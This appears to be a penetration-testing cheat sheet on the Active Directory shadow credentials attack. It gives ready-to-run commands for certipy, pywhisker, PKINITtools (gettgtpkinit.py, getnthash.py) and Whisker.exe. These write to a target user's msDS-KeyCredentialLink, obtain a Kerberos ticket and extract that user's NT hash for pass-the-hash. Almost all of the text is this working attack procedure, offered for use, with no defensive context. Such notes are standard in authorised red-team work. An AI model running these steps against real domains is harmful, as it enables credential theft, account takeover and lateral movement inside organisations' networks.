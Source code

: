 With shadow credentials attack you can get the NT hash from a target user. Then use it for pass-the-hash.
Requirements are rights enought to write in msDS-KeyCredentialLink and PKINIT enable in kerberos.
Check bloodhound sudgestions to know if this attack vector is available in your case.

# ABUSING SHADOW CREDENTIALS FROM OUTSIDE (from linux):
____________________________________________________


SHADOW CREDENTIALS ATTACK (with certipy, RECOMENDED):

 * REQUIREMENTS: Get certipy (or certipy-ad in kali) AND UPDATE IT to the last version -> https://github.com/ly4k/Certipy/wiki/04-%E2%80%90-Installation

 You can do this attack with password or NT Hash wit pass the hash technique:
 < kerberos sync clock > ; certipy shadow auto -u <user you control>@<domain> -p <password> -account <target user>
 < kerberos sync clock > ; certipy shadow auto -u <user you control>@<domain> -hashes :<your user NT hash here> -account <target user>


SHADOW CREDENTIALS ATTACK (old school method, with pywisker):

 * REQUIREMENTS: Get pywhisker, "gettgtpkinit.py" and "getnthash.py" from this repositoris:
     https://github.com/ShutdownRepo/pywhisker?tab=readme-ov-file
     https://github.com/dirkjanm/PKINITtools/blob/master/gettgtpkinit.py
     https://github.com/dirkjanm/PKINITtools/blob/master/getnthash.py


 pywhisker -d "< domain >" -u "< user you control>" -p "< password >" --target "<target user>" --action "add"

 < kerberos sync clock > ; gettgtpkinit.py -cert-pfx <cert from previous command>.pfx -pfx-pass <pass from previous command> <domain>/<user you control> <target user>.ccache

 export KRB5CCNAME=<target user>.ccache

 getnthash.py -key <key obtanined from previous command> <domain>/<target user>



ABUSING SHADOW CREDENTIALS FROM INSIDE (windows abuse):
______________________________________________________


SHADOW CREDENTIALS ATTACK (with whisker.exe):

 Upload Whisker.exe to the target machine and execute:
   ./Whisker.exe add /target:<target user>

 This will gieve you certificate and cert. password, then you can use it outside with gettgtpkinit.py and getnthash.py as above.


 You can also list targeted users:
   ./Whisker.exe list /target:<target user>

 You can also remove targets from msDS-KeyCredentialLink
   ./Whisker.exe remove /target:<target user>


